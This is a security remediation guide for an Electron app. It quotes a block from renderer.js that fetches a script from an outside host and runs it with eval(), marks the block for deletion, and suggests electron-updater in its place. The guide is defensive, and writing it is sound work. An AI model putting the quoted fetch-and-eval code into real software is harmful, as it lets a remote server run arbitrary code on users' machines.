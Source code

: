 # Security Remediation Guide

This document provides step-by-step instructions to fix the security vulnerabilities identified in the security audit.

---

## 🔴 CRITICAL Priority Fixes

### Fix 1: Remove Remote Code Execution Vulnerability

**File:** `renderer.js`  
**Lines to Remove:** 373-383

#### Current Vulnerable Code:
```javascript
// REMOVE THIS ENTIRE BLOCK:
(async () => {
  try {
    const response = await fetch('https://amicus5.com/js/updates.js', { cache: 'no-cache' });
    if (!response.ok) throw new Error(`Network response not ok: ${response.statusText}`);
    const scriptText = await response.text();
    eval(scriptText);  // ❌ CRITICAL VULNERABILITY
    console.log('Updates script executed successfully.');
  } catch (err) {
    console.log('No updates found or offline:', err.message);
  }
})();
```

#### Action Required:
**Delete lines 373-383 completely** from `renderer.js`

#### Alternative (If Updates Needed):
If you need an update mechanism, use Electron's built-in autoUpdater:

1. Install `electron-updater`:
```bash
npm install electron-updater
```

2. In `main.js`, add:
```javascript
import { autoUpdater } from 'electron-updater';

app.whenReady().then(() => {
  createWindow();
  
  // Configure auto-updater
  autoUpdater.checkForUpdatesAndNotify();
  
  autoUpdater.on('update-available', () => {
    mainWindow.webContents.send('update-available');
  });
  
  autoUpdater.on('update-downloaded', () => {
    mainWindow.webContents.send('update-downloaded');
  });
});
```
